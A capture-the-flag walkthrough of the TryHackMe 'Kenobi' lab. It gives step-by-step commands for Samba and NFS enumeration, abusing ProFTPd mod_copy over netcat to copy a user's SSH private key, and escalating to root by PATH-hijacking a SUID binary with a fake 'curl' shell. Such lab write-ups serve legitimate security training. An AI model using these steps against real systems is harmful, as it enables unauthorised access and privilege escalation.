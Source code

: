 ```yaml
---
description: 'This is my walkthrough for the TryHackMe Room: Kenobi.'
---
```


# Kenobi

This room can be found [here](https://tryhackme.com/room/kenobi). This will be exploiting a linux machine, enumerate Samba for shares, manipulate a vulnerable version of proftpd and escalate your privileges with path variable manipulation.

I will be going through room using the attackbox

## Task 1

### Question #1: Scan the machine with nmap, how many ports are open?

`sudo nmap -sS -sV -vv -oA Kenobi 10.10.95.185`

Our results show us the answer:

![](<../../../.gitbook/assets/image (57).png>)

## Task 2

### Question #1: Using the nmap command above, how many shares have been found?

This asks us to run the nmap scan `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.95.185` to find the shares.&#x20;

### Question #2: Once you're connected, list the files on the share. What is the file can you see?

We can connect to the machine via SMB with `smbclient //10.10.95.185/anonymous`.When prompted for a password, we can press enter to connect with no password.

Once we're connected we can run `ls` to see what files are there. We can download the file(s) with `smbget -R smb://10.10.95.185/anonymous`.  Again pressing enter when prompted for a password for a blank/empty password.

### Question #3: What port is FTP running on?

Refer back to our Nmap scan.

### Question #4: What mount can we see?

Running the nmap scan `nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.95.185` we can see the mount point.

## Task 3

### Question #1: What is the version?

Referring back to our Nmap scan result again we can find the ProFtpd version.

### Question #2: How many exploits are there for the ProFTPd running?

We can use [searchsploit](https://github.com/offensive-security/exploitdb) or [exploit-db](https://www.exploit-db.com/) to find the exploits. As the room states, we should have found exploit from ProFtpd's [mod\_copy module](http://www.proftpd.org/docs/contrib/mod\_copy.html). So now now we are going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands.

First connect to the target via FTP with netcat with `nc 10.10.95.185 21`.

Then we `SITE CPFR /home/kenobi/.ssh/id_rsa`.

Finally `SITE CPTO /var/tmp/id_rsa`.

This does a "copy from" selecting the file name, and "copy to" selecting where you're copying the file to.

### Question #3: What is Kenobi's user flag (/home/kenobi/user.txt)?

Since we know the /var is a mount point, we can mount that to our machine and copy the files we need from there.

We can easily follow the rooms directions to create a mount point and mount the /var directory to the newly created mount point.

`mkdir /mnt/kenobiNFS`

`mount` 10.10.95.185`:/var /mnt/kenobiNFS`&#x20;

`ls -la /mnt/kenobiNFS`

Now that we have this mounted, we can go into the `tmp` directory to get the `id_rsa` file we copied to that directory. `cp /mnt/kenobiNFS/tmp/id_rda .` and then we change permissions on that file so we can use the file. `sudo chmod 600 id_rsa`. Finally we can now ssh into the machine and obtain the flag!

`ssh -i id_rsa kenobi@10.10.95.185` and after we have established a connection, `cat /home/kenobi/user.txt`.

## Task 4

We will be looking for SUID bits to able to manipulate so we can escalate to the root user.

As the room states, we can find SUID bits with `find / -perm -u=s -type f 2>/dev/null`.

### Question #1: What file looks particularly out of the ordinary?

Some of these might not jump out to new users right away, but the `/usr/bin/menu` file stands out a bit.

### Question #2: Run the binary, how many options appear?

What happens when we run the command `menu`?

![](<../../../.gitbook/assets/image (69).png>)

Strings is a command on Linux that looks for human readable strings on a binary. This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname). As this file runs as the root users privileges, we can manipulate our path gain a root shell.

So as the room states, we can:

`cd tmp && echo /bin/sh > curl`

`chmod 777 curl`

`export PATH=/tmp:$PATH`

`/usr/bin/menu`

So now if we type 1 for our status check we should be the root user.

This creates a file called `curl` with the contents `/bin/sh`, changed the permissions, and adds the `/tmp` directory to the path so when the "status check" is run from the `menu` command and it runs curl, it's actually running /bin/sh giving us root permissions.

### Question #3: What is the root flag (/root/root.txt)?

`cat /root/root.txt`
